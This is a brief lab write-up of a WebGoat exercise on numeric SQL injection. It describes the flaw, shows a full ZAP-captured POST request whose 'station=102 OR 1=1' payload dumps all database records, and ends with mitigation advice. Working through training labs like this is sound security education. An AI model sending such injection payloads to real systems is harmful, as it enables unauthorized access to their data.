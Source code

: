 
## Vulnerability:

This time integer data type is supplied to sql query via drop down menu.

## Exploitation:

Modified request in ZAP that exploits this vulnerability:

```
POST http://webgoat.hacking-lab.com/attack?Screen=77&menu=1100 HTTP/1.1
Proxy-Connection: keep-alive
Content-Length: 33
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://webgoat.hacking-lab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/39.0.2171.65 Chrome/39.0.2171.65 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://webgoat.hacking-lab.com/attack?Screen=77&menu=1100
Accept-Language: en-US,en;q=0.8
Cookie: JSESSIONID=DD06788BDCB1B5813FA6CDC51452FF6E
Cookie: $Version=0; JSESSIONID=A93334E44AE5E96915FD28AA47049A61; $Path=/
Host: webgoat.hacking-lab.com
Cookie: $Version=0; JSESSIONID=A93334E44AE5E96915FD28AA47049A61; $Path=/

station=102+OR+1%3D1&SUBMIT=Go%21
```

It retrieves all DB records.

## Mitigation:
1) validate input data

2) use prepared statements/stored procedures (https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet) 
